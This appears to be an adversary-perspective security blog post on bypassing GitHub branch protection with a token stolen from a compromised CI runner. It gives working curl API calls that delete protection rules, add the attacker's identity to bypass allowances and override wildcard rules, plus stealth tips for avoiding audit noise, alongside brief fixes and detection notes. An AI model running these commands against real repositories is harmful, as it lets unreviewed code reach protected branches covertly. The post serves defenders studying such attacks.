# Bypassing GitHub Branch Protection — An Adversary’s Perspective

_Assume the build environment is already compromised._  
_Assume the attacker has obtained a GitHub token._

This post focuses **only** on **GitHub Branch Protection bypass techniques**, from an adversary mindset, after compromising a CI/CD environment and extracting a privileged token.

---

## Threat model

**Initial access**
- CI runner / build host compromised
- GitHub token extracted (PAT / App token) from:
  - Environment variables
  - Workflow secrets
  - `.git/config`
  - Cached credentials

**Objective**
- Push code to protected branches without PR review gates
- Keep it quiet (minimal audit noise)

### High-level flow



---

## What branch protection actually enforces?

Branch protection is enforced **server-side by GitHub**, not by `git` locally.

If an attacker can **change the rules** (or is allowed to bypass them), the protection becomes policy friction rather than a hard barrier.

### Enforcement model



---

## Bypass 1 — Repository admin implicit bypass

### Scenario

Let's say we created a simple branch protection rule, enabling only these two options:

- Require a pull request before merging.
- Two approvals required

!!! example 
    

Technically this should stop us from pushing directly to the protected main branch, unfortunately we can still push directly to the protected branch.

!!! failure "Branch protection did not stop pushing to the branch"
    

### Root cause

!!! info "Root cause"
    By default, **repository admins can bypass branch protection rules**. If the compromised token belongs to an admin identity (human or bot), the server can accept the push even though rules exist.
    

### Diagram



### Fix

!!! tip
    Enable the option that enforces rules for admins (no bypass).
    
    
---

## Bypass 2 — Delete branch protection via API

Now let's say we apply the fix as showed in the above example. In such cases the attackers often switch to configuration attacks if the token has richer set of priviliges.

### Attack idea

If the token has admin rights on the repo, the attacker can perform the following techniques:

!!! danger "Deleting a branch protection rule"
    1. Delete the branch protection rule
    2. Push code
    3. Optionally recreate the rule (for stealth)

```bash
curl -X DELETE \
  -H "Authorization: token $TOKEN" \
  -H "Accept: application/vnd.github+json" \
  https://api.github.com/repos/<ORG>/<REPO>/branches/main/protection
```

Then push:

```bash
git push origin main
```

### Diagram



**Notes**

!!! warning 
    - Noisy (audit trail + drift)
    - Often auto-remediated in mature orgs
    - Wildcard rule setups can change behavior

---

## Bypass 3 — Add yourself to bypass allowances (stealthy)

Deleting protection is loud. A quieter move is to modify it so your identity can bypass PR requirements.

### Attack idea

If the token has admin rights, the attacker can perform the following techniques:

!!! danger "Adding the compromised actor to the bypass list"
    - Identify the token actor
    - Add actor to bypass list
    - Push code

### Step 1 — Identify the token actor

```bash
curl -H "Authorization: token $TOKEN" \
  -H "Accept: application/vnd.github+json" \
  https://api.github.com/user
```

### Step 2 — Add actor to bypass list

```bash
curl -X PATCH \
  -H "Authorization: token $TOKEN" \
  -H "Accept: application/vnd.github+json" \
  https://api.github.com/repos/<ORG>/<REPO>/branches/main/protection/required_pull_request_reviews \
  -d '{
    "bypass_pull_request_allowances": {
      "users": ["<ACTOR>"],
      "teams": [],
      "apps": []
    }
  }'
```

### Step 3 — Push code

```bash
git push origin main
```

### Diagram



!!! question "Why it is stealthier?"
    - Protection remains enabled
    - No deletion events
    - Only one identity silently bypasses review gates

---

## Bypass 4 — Reconfigure rules under wildcard enforcement

In this case there might exist wildcard based branch protection rules ( * ) which means all branches in the repository will enforce these rules. An attacker can try to push a generic branch rule to overide the wild card based rule.

!!! tip "Rule Precidence"
    Named branch rules can override the wildcard rules.

### Attack idea

If the token has admin rights, the attacker can perform the following techniques:

!!! danger "Attack Plan"
    - Push a named branch rule
    - Identify the token actor
    - Add actor to bypass list
    - Push code


Example (illustrative):

```bash
curl -X PUT \
-H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/repos/testerhats/app-test-public/branches/main/protection \
-d '{
"required_status_checks": null,
"enforce_admins": null,
"required_pull_request_reviews": {
"dismissal_restrictions": {},
"dismiss_stale_reviews": false,
"require_code_owner_reviews": true,
"required_approving_review_count": 1
},
"restrictions": null
}'
```

### Diagram



---


## Defensive recommendations

### Hardening map



### Detection map



---

## Closing thoughts

Branch protection is **policy** until you enforce it for administrators and prevent automation identities from rewriting it.

If your CI can reconfigure branch protections, then your CI effectively holds administrator power over your source of truth.
